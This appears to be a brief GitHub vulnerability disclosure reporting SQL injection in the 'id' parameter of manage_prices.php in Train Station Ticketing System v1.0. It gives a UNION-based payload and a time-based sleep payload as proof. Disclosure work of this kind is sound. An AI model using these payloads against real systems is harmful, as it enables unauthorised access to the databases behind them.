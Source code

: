 # Train Station Ticketing System v1.0 has SQL injection

BUG_Author：syr14

Website source address: https://www.sourcecodester.com/php/14572/train-station-ticketing-system-using-phpmysqli-source-code.html

Vulnerability File: /train_ticketing/manage_prices.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1 union all select null,concat(0x616263,0x7576777879),null-- -

The union query is successful, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql.png)

Payload2: id=1 and(select 5 from (select(sleep(5)))e)

The response time of the server is 5 seconds, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql1.png)
